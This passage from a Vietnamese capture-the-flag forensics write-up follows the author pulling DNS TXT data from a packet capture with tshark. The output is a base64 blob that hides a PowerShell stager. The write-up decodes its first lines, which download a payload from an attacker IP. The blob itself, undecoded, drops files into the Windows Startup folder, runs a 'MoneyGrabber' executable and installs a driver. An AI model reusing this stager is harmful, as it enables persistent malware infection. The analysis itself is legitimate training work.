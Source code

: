 - Đây có lẽ là hint để ta kiếm phần tiếp theo của flag các domain name như này chắc chắn ta cần phải sử dụng đến file `.pcapng` rồi.
- Mình sử dụng ngay filter này `dns && dns matches "americanvegtables.*"` để lọc ra các domain này và ta có thể thấy data của packet này là 1 đoạn base, khi mình lọc ra 1 lần nữa thì tổng có 7 packets mới có data.
![1713901419086](image/writeup/1713901419086.png)
![1713901617763](image/writeup/1713901617763.png)
- Mình xài tshark để lấy data ra.
```
$ tshark -r capture.pcapng -Y "dns && dns.txt" -T fields -e "dns.txt"
JGRvd25sb2FkVVJMID0gIjE5Mi4xNjguMTU3LjE0NTo4MDgwL21vbmV5LnBuZyIKJGNvbnRlbnQgPSBJbnZva2UtV2ViUmVxdWVzdCAkZG93bmxvYWRVUkwKCiRyZSA9IE5ldy1PYmplY3QgU3lzdGVtLlRleHQuUmVndWxhckV4cHJlc3Npb25zLlJlZ2V4KCJjNGZj
MzRmNDUzODZkNGM5OGUyNiIpCiRzdHVmZiA9IFtyZWdleF06OlNwbGl0KCRjb250ZW50LCAkcmUpWzFdCiR6aXAgPSBbU3lzdGVtLkNvbnZlcnRdOjpGcm9tQmFzZTY0U3RyaW5nKCRzdHVmZikKClNldC1Db250ZW50ICJDOlxQcm9ncmFtRGF0YVxNaWNyb3NvZnRc
V2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0VXBcc3R1ZmYuemlwIiAtVmFsdWUgJHppcCAtRW5jb2RpbmcgQnl0ZQoKRXhwYW5kLUFyY2hpdmUgLVBhdGggIkM6XFByb2dyYW1EYXRhXE1pY3Jvc29mdFxXaW5kb3dzXFN0YXJ0IE1lbnVcUHJvZ3JhbXNc
U3RhcnRVcFxzdHVmZi56aXAiIC1EZXN0aW5hdGlvblBhdGggIkM6XFByb2dyYW1EYXRhXE1pY3Jvc29mdFxXaW5kb3dzXFN0YXJ0IE1lbnVcUHJvZ3JhbXNcU3RhcnRVcFwiCgpSZW1vdmUtSXRlbSAiQzpcUHJvZ3JhbURhdGFcTWljcm9zb2Z0XFdpbmRvd3NcU3Rh
cnQgTWVudVxQcm9ncmFtc1xTdGFydFVwXHN0dWZmLnppcCIKClN0YXJ0LVByb2Nlc3MgIkM6XFByb2dyYW1EYXRhXE1pY3Jvc29mdFxXaW5kb3dzXFN0YXJ0IE1lbnVcUHJvZ3JhbXNcU3RhcnRVcFxNb25leUdyYWJiZXIuZXhlIiAtTm9OZXdXaW5kb3cKCnBucHV0
aWwuZXhlIC9hZGQtZHJpdmVyICJDOlxQcm9ncmFtRGF0YVxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0VXBcbXlEcml2ZXIuaW5mIiAvaW5zdGFsbAoKc2MuZXhlIHN0YXJ0IG15RHJpdmVyCgpSZW1vdmUtSXRlbSAiQzpcUHJvZ3Jh
bURhdGFcTWljcm9zb2Z0XFdpbmRvd3NcU3RhcnQgTWVudVxQcm9ncmFtc1xTdGFydFVwXG15RHJpdmVyLioiCgojIFdyaXRlLU91dHB1dCAiNF90SDFuR18i
```
- Decode đoạn base64 sau mình thu được 1 đoạn script sau:
```
$downloadURL = "192.168.157.145:8080/money.png"
$content = Invoke-WebRequest $downloadURL
```